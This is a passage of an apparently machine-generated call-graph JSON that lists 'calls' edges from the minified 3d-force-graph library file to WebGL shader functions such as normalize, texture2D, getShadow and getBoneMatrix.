"EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getMorph"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dFdx"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dFdy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mat3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getTangentFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mat3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getTangentFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "perturbNormalArb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getTangentFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dFdx"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dFdy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dFdx"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dFdy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cross"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cross"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "inversesqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mat3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "packNormalToRGB"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "unpackRGBToNormal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "packDepthToRGBA"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "modf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "modf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "modf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "packDepthToRGB"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "modf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "modf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "packDepthToRG"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "modf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "unpackRGBAToDepth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "unpackRGBToDepth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "unpackRGToDepth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pack2HalfToRGBA"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fract"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "unpackRGBATo2Half"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "viewZToOrthographicDepth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "treturn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "orthographicDepthToViewZ"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "viewZToPerspectiveDepth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "treturn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "perspectiveDepthToViewZ"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "treturn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dithering"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dithering"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "rand"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2DCompare"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "step"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2DDistribution"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "unpackRGBATo2Half"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2DDistribution"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "step"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clamp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clamp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ttexture2DCompare"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ttexture2DCompare"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ttexture2DCompare"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ttexture2DCompare"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ttexture2DCompare"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ttexture2DCompare"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ttexture2DCompare"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ttexture2DCompare"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ttexture2DCompare"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ttexture2DCompare"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ttexture2DCompare"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ttexture2DCompare"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ttexture2DCompare"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ttexture2DCompare"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ttexture2DCompare"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ttexture2DCompare"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ttexture2DCompare"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fract"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ttexture2DCompare"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ttexture2DCompare"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ttexture2DCompare"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ttexture2DCompare"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tmix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2DCompare"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tmix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2DCompare"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tmix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2DCompare"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tmix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2DCompare"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tmix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2DCompare"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2DCompare"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2DCompare"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cubeToUV"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getPointShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ttexture2DCompare"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ttexture2DCompare"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ttexture2DCompare"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ttexture2DCompare"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ttexture2DCompare"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ttexture2DCompare"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ttexture2DCompare"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ttexture2DCompare"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ttexture2DCompare"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2DCompare"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "inverseTransformDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tfor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tfor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tfor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getShadowMask"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tfor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tfor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tfor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getPointShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getBoneMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getBoneMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getBoneMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getBoneMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getBoneMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "textureSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "int"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texelFetch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texelFetch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texelFetch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texelFetch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mat4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mat4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toneMapping"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "saturate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clamp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "saturate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "saturate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mat3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tvec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tvec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mat3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tvec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tvec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "saturate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mat3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tvec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tvec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mat3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tvec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tvec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "agxDefaultContrastApprox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mat3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tvec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tvec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mat3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tvec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tvec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, 